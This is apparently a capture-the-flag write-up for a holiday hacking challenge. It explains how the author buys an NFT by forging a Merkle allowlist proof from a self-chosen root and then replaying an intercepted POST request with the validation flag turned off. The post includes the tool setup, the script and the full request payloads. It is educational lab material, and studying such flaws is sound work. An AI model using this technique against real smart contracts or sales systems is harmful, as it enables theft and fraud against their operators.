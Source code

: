 ```yaml
---
sidebar_position: 3
---
```


# Exploit a Smart Contract

> Exploit flaws in a smart contract to buy yourself a Bored Sporc NFT. Find hints for this objective hidden throughout the tunnels.

## Set up QPetabyte's Merkle Trees tool

In order to solve this objective we need to obtain and install a Merkle Tree tool:

```bash
git clone https://github.com/QPetabyte/Merkle_Trees
cd Merkle_Trees
docker build -t merkletrees .
docker run -it --rm --name=merkletrees merkletrees
```

### Setup merkle_tree.py script

This script needs a list of wallets to put on the allowlist in order to calculate the root value. My theory is that I put my wallet ID in as the first entry and then fill up with addresses found on the NFT gallery page (in file merkle_tree.py) : 

```python
# allowlist = ['0x1337133713371337133713371337133713371337','0x0000000000000000000000000000000000000000']

allowlist = [
    "0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
    "0xa1861E96DeF10987E1793c8f77E811032069f8E9",
    "0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2",
    "0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2",
    "0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8",
    "0x7F7cAA97b73fD38d6740e59C159428509eE00082",
    "0x214Fee463D58D21954e75bdD93c386414e71A985",
]
```

I renamed **merkle_tree_new.py** to **merkle_tree_new.py** for this writeup.

Then run the tool:

```bash
$ python3 merkle_tree_new.py 

Root: 0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed
"0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5"
```

### HTTP Post validate adress on list 

I used BurpSuite proxy for this and Repated the sniffed POST request once edited with correct values

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"true",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Got the following feedback from server

```python
{"Response": "You're on the list and good to go! Now... BUY A SPORC!"}
```

### Prepaying 

Setting up the prepayment is just the same as in the buy a hat objective. Walk over to the teller:

![Teller machine](/img/burning-ring/smart-contract-1.png)

Approve a KringleCoin Transfer:

![Teller menu](/img/burning-ring/smart-contract-2.png)

Fill out the details:

![Preparing payment](/img/burning-ring/smart-contract-3.png)

Transaction approved!

![Payment done](/img/burning-ring/smart-contract-4.png)

### Paying for NFT

Reusing the HTTP POST request as used in "HTTP Post validate address on list", but altering parameter "Validate" to "false" (still using BurpSuite):

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"false",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Response:

```python
{
	"Response": "Success! You are now the proud owner of BSRS Token #000234. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS234, or check it out in the gallery!<br>Transaction: 0x4cd5d6458d1c1a430c07e410a58f79d660125ff8f2e9ab2032aa9be2112ad6b3, Block: 69095<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}
```

Apparently I bought this NFT:

![My NFT](/img/burning-ring/BSRS234.png)